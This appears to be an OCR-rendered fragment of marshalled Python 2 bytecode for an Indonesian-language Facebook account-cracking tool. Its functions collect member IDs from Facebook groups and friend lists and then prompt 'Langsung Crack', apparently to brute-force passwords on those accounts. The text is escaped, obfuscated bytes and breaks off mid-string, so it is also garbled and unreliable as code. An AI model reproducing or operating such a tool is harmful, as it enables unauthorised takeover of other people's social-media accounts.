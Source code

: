 Group....s0\x00\x00\x00https://m.facebook.com/browse/group/members/?id=sI\x00\x00\x00&amp;start=0&amp;listType=list_nonfriend&amp;refid=18&amp;_rdc=1&amp;_rdrR\x0f\x00\x00\x00s\x14\x00\x00\x00<title>(.*?)</title>i\x00\x00\x00\x00i\x01\x00\x00\x00R6\x00\x00\x00s\x16\x00\x00\x00/browse/group/members/s\x1f\x00\x00\x00\rm[!]Id yang anda masukan salahs!\x00\x00\x00\rh[*]Mengambil Id dari group \rc%s(\x0c\x00\x00\x00R"\x00\x00\x00t\x08\x00\x00\x00id_groupR\x0c\x00\x00\x00R/\x00\x00\x00R(\x00\x00\x00R=\x00\x00\x00R>\x00\x00\x00t\x05\x00\x00\x00splitR*\x00\x00\x00R0\x00\x00\x00R1\x00\x00\x00RI\x00\x00\x00(\x03\x00\x00\x00R!\x00\x00\x00RB\x00\x00\x00t\x04\x00\x00\x00next(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00<febry>t\x10\x00\x00\x00saring_id_group0\x8c\x00\x00\x00s\x1c\x00\x00\x00\x00\x02\x03\x01\x0c\x01\n\x01\x14\x01)\x01\x03\x01\x15\x01\x05\x01\x03\x01\n\x01\x0b\x01\x0e\x01\n\x01c\x00\x00\x00\x00\x02\x00\x00\x00\x04\x00\x00\x00C\x00\x01\x00s\xd1\x00\x00\x00t\x00\x00d\x01\x00k\x03\x00r6\x00t\x01\x00d\x02\x00\x83\x01\x00\x01t\x02\x00\x83\x00\x00\x01t\x00\x00d\x03\x00k\x02\x00r6\x00t\x03\x00\x83\x00\x00\x01q6\x00n\x00\x00t\x04\x00\x83\x00\x00}\x00\x00xL\x00t\x05\x00t\x06\x00|\x00\x00\x83\x01\x00\x83\x01\x00\x01y\x19\x00t\x07\x00j\x08\x00d\x04\x00d\x05\x00\x83\x00\x01j\t\x00}\x00\x00WqB\x00\x01\x01\x01t\x01\x00d\x06\x00t\n\x00t\x0b\x00\x83\x01\x00\x16\x83\x01\x00\x01PqB\x00XqB\x00Wt\x0c\x00\x83\x00\x00\x01t\r\x00d\x07\x00d\x08\x00d\t\x00g\x02\x00\x83\x02\x00}\x01\x00|\x01\x00j\x0e\x00\x83\x00\x00d\x08\x00k\x02\x00r\xc6\x00t\x0f\x00t\x0b\x00\x83\x01\x00St\x10\x00\x83\x00\x00Sd\x00\x00S(\n\x00\x00\x00Ni\x01\x00\x00\x00s\x16\x00\x00\x00\rh[*]Login Akun Dahului\x00\x00\x00\x00R6\x00\x00\x00s\x16\x00\x00\x00/browse/group/members/s"\x00\x00\x00\rm[!]Hanya Bisa Mengambil \rh %d ids\x17\x00\x00\x00[?]Langsung Crack (y/t)t\x01\x00\x00\x00Yt\x01\x00\x00\x00T(\x11\x00\x00\x00R?\x00\x00\x00R\x0c\x00\x00\x00RC\x00\x00\x00R\x14\x00\x00\x00RM\x00\x00\x00RI\x00\x00\x00R/\x00\x00\x00R*\x00\x00\x00R0\x00\x00\x00R1\x00\x00\x00R\x1f\x00\x00\x00R&\x00\x00\x00R\x10\x00\x00\x00R"\x00\x00\x00R\x1e\x00\x00\x00t\x05\x00\x00\x00crackt\x04\x00\x00\x00menu(\x02\x00\x00\x00RL\x00\x00\x00R\x0b\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00<febry>t\x07\x00\x00\x00idgroup\x9c\x00\x00\x00s$\x00\x00\x00\x00\x01\x0c\x01\n\x01\x07\x01\x0c\x01\r\x01\t\x01\x03\x01\x10\x01\x03\x01\x19\x01\x03\x01\x14\x01\t\x01\x07\x01\x15\x01\x12\x01\n\x02c\x00\x00\x00\x00\x02\x00\x00\x00\x04\x00\x00\x00C\x00\x01\x00s5\x01\x00\x00t\x00\x00d\x01\x00k\x03\x00r6\x00t\x01\x00d\x02\x00\x83\x01\x00\x01t\x02\x00\x83\x00\x00\x01t\x00\x00d\x03\x00k\x02\x00r6\x00t\x03\x00\x83\x00\x00\x01q6\x00n\x00\x00t\x04\x00t\x05\x00d\x04\x00\x83\x01\x00\x83\x01\x00\x01y\x19\x00t\x06\x00j\x07\x00d\x05\x00d\x06\x00\x83\x00\x01j\x08\x00}\x00\x00WnA\x00\x01\x01\x01t\t\x00t\n\x00\x83\x01\x00d\x03\x00k\x03\x00r\x8e\x00t\x01\x00d\x07\x00t\t\x00t\x0b\x00\x83\x01\x00\x16\x83\x01\x00\x01q\xa3\x00t\x01\x00d\x08\x00\x83\x01\x00\x01t\x03\x00\x83\x00\x00\x01n\x01\x00XxL\x00t\x04\x00t\x05\x00|\x00\x00\x83\x01\x00\x83\x01\x00\x01y\x19\x00t\x06\x00j\x07\x00d\x05\x00d\x06\x00\x83\x00\x01j\x08\x00}\x00\x00Wq\xa6\x00\x01\x01\x01t\x01\x00d\x07\x00t\t\x00t\x0b\x00\x83\x01\x00\x16\x83\x01\x00\x01Pq\xa6\x00Xq\xa6\x00Wt\x0c\x00\x83\x00\x00\x01t\r\x00d\t\x00d\n\x00d\x0b\x00g\x02\x00\x83\x02\x00}\x01\x00|\x01\x00j\x0e\x00\x83\x00\x00d\n\x00k\x02\x00r*\x01t\x0f\x00t\x0b\x00\x83\x01\x00St\x10\x00\x83\x00\x00Sd\x00\x00S(\x0c\x00\x00\x00Ni\x01\x00\x00\x00s\x16\x00\x00\x00\rh[*]Login Akun Dahului\x00\x00\x00\x00sp\x00\x00\x00https://m.facebook.com/friends/center/friends/?fb_ref=fbm&ref_component=mbasic_bookmark&ref_page=XMenuControllerR6\x00\x00\x00t\x13\x00\x00\x00friends_center_mains"\x00\x00\x00\rm[!]Hanya dapat mengambil \rp%d ids\n\x00\x00\x00\rm[!]Batals\x17\x00\x00\x00[?]Langsung Crack